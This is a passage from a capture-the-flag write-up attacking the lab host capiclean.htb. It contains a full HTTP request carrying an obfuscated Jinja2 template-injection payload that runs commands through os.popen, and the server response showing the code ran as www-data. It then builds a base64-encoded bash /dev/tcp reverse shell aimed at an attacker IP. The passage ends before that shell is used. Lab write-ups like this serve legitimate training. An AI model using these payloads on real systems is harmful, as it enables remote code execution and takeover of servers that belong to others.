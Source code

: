 ```
POST /QRGenerator HTTP/1.1
Host: capiclean.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 432
Origin: http://capiclean.htb
Connection: close
Referer: http://capiclean.htb/QRGenerator
Cookie: session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.Zi_FFg.4KcBWzEmiHeXXKR322SDXUddFsA
Upgrade-Insecure-Requests: 1

invoice_id=&form_type=scannable_invoice&qr_link=%7B%7Brequest%7Cattr%28%22application%22%29%7Cattr%28%22%5Cx5f%5Cx5fglobals%5Cx5f%5Cx5f%22%29%7Cattr%28%22%5Cx5f%5Cx5fgetitem%5Cx5f%5Cx5f%22%29%28%22%5Cx5f%5Cx5fbuiltins%5Cx5f%5Cx5f%22%29%7Cattr%28%22%5Cx5f%5Cx5fgetitem%5Cx5f%5Cx5f%22%29%28%22%5Cx5f%5Cx5fimport%5Cx5f%5Cx5f%22%29%28%22os%22%29%7Cattr%28%22popen%22%29%28%22bash+-c+%27whoami%27%22%29%7Cattr%28%22read%22%29%28%29%7D%7D
```
The server would then issue the following valid response showing that this server was running as www-data.

```
HTTP/1.1 200 OK
Date: Mon, 29 Apr 2024 20:13:28 GMT
Server: Werkzeug/2.3.7 Python/3.10.12
Content-Type: text/html; charset=utf-8
Vary: Cookie,Accept-Encoding
Connection: close
Content-Length: 4429

<!DOCTYPE html>
<html lang="en">
<head>

<Snipped>

<div class="qr-code-container"><div class="qr-code"><img src="data:image/png;base64,www-data
" alt="QR Code"></div>
</body>
</html>
```

So now our next step is to fully weaponize this with a reverse shell. So to have less issues with syntax i'll base64 encode my reverse shell.

```
echo -n '/bin/bash -l > /dev/tcp/10.10.16.69/443 0<&1 2>&1' | base64
```

this command gave us the following B64 encoded string 
```
L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTYuNjkvNDQzIDA8JjEgMj4mMQ==
```
